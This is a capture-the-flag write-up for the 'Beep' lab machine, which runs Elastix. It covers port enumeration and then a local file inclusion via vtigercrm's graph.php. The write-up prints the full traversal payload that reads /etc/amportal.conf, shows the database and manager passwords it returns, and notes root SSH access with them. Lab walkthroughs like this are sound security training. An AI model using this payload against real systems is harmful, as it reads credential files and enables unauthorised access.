

# Beep

<figure><figcaption></figcaption></figure>

## Enumeration

### NMAP

| Port  | Service | Details                                       |
| ----- | ------- | --------------------------------------------- |
| 22    | SSH     | OpenSSH 4.3 (protocol 2.0)                    |
| 25    | SMTP    | Postfix smtpd                                 |
| 80    | HTTP    | Apache httpd 2.2.3                            |
| 110   | POP3    | Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5\_6.4 |
| 111   | RPC     | syn-ack 2 (RPC #100000)                       |
| 143   | IMAP    | Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5\_6.4 |
| 443   | HTTPS   | Apache httpd 2.2.3 ((CentOS))                 |
| 10000 | HTTP    | MiniServ 1.570 (Webmin httpd)                 |

## Port 80

Elastix webpage with login.&#x20;

<figure><figcaption></figcaption></figure>

Default credentials don't work, so I will finish my enumeration with gobuster.

<figure><figcaption></figcaption></figure>

`/admin` is interesting, but going there gives a login screen that doesn't take default credentials.

<figure><figcaption></figcaption></figure>

### LFI

We can searchsploit for elastix:

<figure><figcaption></figcaption></figure>

I like that LFI, but to be honest I tried multiple ones to try and find one that actually worked. Problem is, the perl script does not run. Good thing is that it tells us exactly what the LFI is.

<figure><figcaption></figcaption></figure>

`/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

That's where we want to go, and it'll give me credentials.

```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

Now we can just ssh into the machine as root and get both flags.
